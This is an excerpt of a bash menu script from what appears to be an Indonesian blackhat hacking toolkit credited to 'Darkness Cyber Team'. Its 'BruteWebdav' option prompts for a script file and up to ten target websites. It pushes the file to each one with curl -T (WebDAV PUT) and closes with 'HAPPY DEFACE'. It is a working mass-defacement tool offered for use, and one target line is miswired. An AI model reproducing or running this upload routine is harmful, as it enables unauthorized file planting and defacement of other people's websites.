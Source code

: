 if [ $bro = 46 ] || [ $bro = 46 ]
then
clear
cowsay -f kiss.cow "Mranonime" | lolcat
figlet "Mr.anonime" | lolcat
sleep 1
cd module
python2 r.py
fi

if [ $bro = 47 ] || [ $bro = 47 ]
then
clear
toilet -f standard -F gay "BruteWebdav"
echo "\033[32;1mauthor: Mr.anonime"
echo "\033[33;1mTeam: Darkness Cyber Team"
echo "\033[34;1mIndonesia Security Lite"
echo "\033[32;1mJawaBarat Blackhat Army"
echo "Masukan nama script"
read -p "[=======>" script
echo "\033[32;1m"
echo "Masukan Web Target Ke1"
read -p "[=======>" Ke1
curl -T /storage/emulated/0/$script $Ke1
echo "\033[32;1m" "Masukan Web Target Ke2 "
read -p "[=======>" Ke2
curl -T /storage/emulated/0/$script $Ke2
echo "\033[32;1m" "Masukan Web Target Ke3"
read -p "[=======>" Ke3
curl -T /storage/emulated/0/$script $Ke3
echo "\033[32;1m" "Masukan Web Target Ke4"
read -p "[=======>" Ke4
curl -T /storage/emulated/0/$script $Ke5
echo "\033[32;1m" "Masukan Web Target Ke5"
read -p "[=======>" Ke5
curl -T /storage/emulated/0/$script $Ke5
echo "\033[32;1m" "Masukan Web Target Ke6"
read -p "[=======>" Ke6
curl -T /storage/emulated/0/$script $Ke6
echo "\033[32;1m" "Masukan Web Target Ke7"
read -p "[=======>" Ke7
curl -T /storage/emulated/0/$script $Ke7
echo "\033[32;1m" "Masukan Web Target Ke8"
read -p "[=======>" Ke8
curl -T /storage/emulated/0/$script $Ke8
echo "\033[32;1m" "Masukan Web Target Ke9"
read -p "[=======>" Ke9
curl -T /storage/emulated/0/$script $Ke9
echo "\033[32;1m" "Masukan Web Target Ke10"
read -p "[=======>" Ke10
curl -T /storage/emulated/0/$script $Ke10
sleep 1
echo "[<=====================SEDANG PROSES=====================>]"
echo "Silahkan Cek Web $Ke1/$script"
echo "Silahkan Cek Web $Ke2/$script"
echo "Silahkan Cek Web $Ke3/$script"
echo "Silahkan Cek Web $Ke4/$script"
echo "Silahkan Cek Web $Ke5/$script"
echo "Silahkan Cek Web $Ke6/$script"
echo "Silahkan Cek Web $Ke7/$script"
echo "Silahkan Cek Web $Ke8/$script"
echo "Silahkan Cek Web $Ke9/$script"
echo "Silahkan Cek Web $Ke10/$script"
echo "[=============HAPPY DEFACE=============]"